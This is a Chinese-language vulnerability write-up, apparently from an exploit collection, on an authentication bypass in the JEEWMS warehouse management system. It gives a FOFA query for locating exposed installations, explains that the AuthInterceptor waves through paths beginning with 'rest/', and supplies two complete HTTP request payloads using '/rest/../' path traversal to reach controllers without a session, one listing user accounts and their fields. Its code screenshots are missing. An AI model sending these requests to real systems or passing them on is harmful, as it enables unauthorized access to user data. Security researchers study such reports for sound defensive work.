





## **JEEWMS存在权限绕过漏洞**

## 漏洞描述

**JEEWMS存在权限绕过漏洞**

## 漏洞影响

> JEEWMS全版本

## FOFA

> body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

## 漏洞复现

漏洞代码：

**org.jeecgframework.core.interceptors.AuthInterceptor**

jeewms使用JAVA拦截器做的权限控制，存在被绕过漏洞

代码：



可以看到第一个if判断中只要0-5个字符串是rest/就返回true，意思是无需认证

由于测试站放在站群上，**因此POC是/wmstest/rest/../正常/rest/../即可**

**正常数据包**：



删除Cookie数据包



使用POC数据包





##payload

```
POST /wmstest/rest/../BiController.do?dayCount&reportType=line HTTP/1.1
Host: www.jeewms.cn
Content-Length: 0
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
X-Requested-With: XMLHttpRequest
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/BiController.do?homebi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

```

```
POST /wmstest/rest/../userController.do?datagrid&field=id,userName,realName,userOrgList.tsDepart.departname,userKey,createBy,createDate,updateBy,updateDate,status, HTTP/1.1
Host: www.jeewms.cn
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/userController.do?user&clickFunctionId=8a8ab0b246dc81120146dc8180df001f
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

page=1&rows=10&sort=createDate%2CuserName&order=asc%2Cdesc

```

